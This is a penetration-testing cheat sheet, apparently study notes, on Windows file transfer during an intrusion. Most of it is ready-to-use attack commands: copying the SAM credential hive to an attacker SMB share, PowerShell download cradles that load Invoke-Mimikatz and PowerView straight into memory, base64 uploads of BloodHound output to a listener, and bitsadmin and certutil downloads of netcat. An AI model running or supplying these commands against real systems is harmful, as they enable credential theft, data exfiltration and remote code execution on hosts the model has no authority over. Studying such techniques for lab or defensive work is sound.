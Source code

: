 # Windows File Transfer

## Smb Server / Mount share

```
smbserver.py -smb2support -username gust -password guest share /root/htb

#Mount 
net use x: \\<IP>\share /user:guest <password>
#Download
cmd /c "copy file.txt X:\"
move sam.save \\10.10.15.16\CompData

$pass = convertto-securestring 'staphy' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('staphy',$pass)
New-PSDrive -Name "staphy" -PSProvider "FileSystem" -Credential $creds -Root "\\<IP>\Public"
cd staphy:
```



## PowerShell

### PowerShell Downloads

```
#System.Net.WebClient class can be used to download a file over HTTP.
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:PORT/file.EXT',"C:\Outfile.EXT")

#From PowerShell 3.0 Invoke-WebRequest but slower,
#Alias iwr, curl, wget can be used instead of Invoke-WebRequest
Invoke-WebRequest http://<IP>:PORT/file.Ext -OutFile file.Ext

#Execute Payload directly into memory using Invoke-Expression
#Alias iex
IEX (New-Object Net-WebClient).DownloadString('http://<IP>:PORT/Invoke-Mimikatz.ps1')

#IEX also accepts pipeline input
Invoke-WebRequest https://<IP>:PORT/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`

```
Invoke-WebRequest https://<ip>/PowerView.ps1 | iex
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand


# FIX
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False

# with administrative access to the machine, we can disable Internet Explorer’s First Run customization
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endhint %}

> Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### PowerShell Uploads

```
#Invoke-WebRequest or Invoke-RestMethod
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/Bloodhound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:433 -Method POST -Body $b64

#after catching 64data with ncat
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitadmin

### Download

```
#Background Intelligent Transfer Service
#Can download from HTTP sites and SMB shares
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe

#PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<IP>/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```
start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql        
```

## Certutil

```
#available in all Windows versions
#the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
certutil.exe -verifyctl -split -f http://<IP>/nc.exe
```

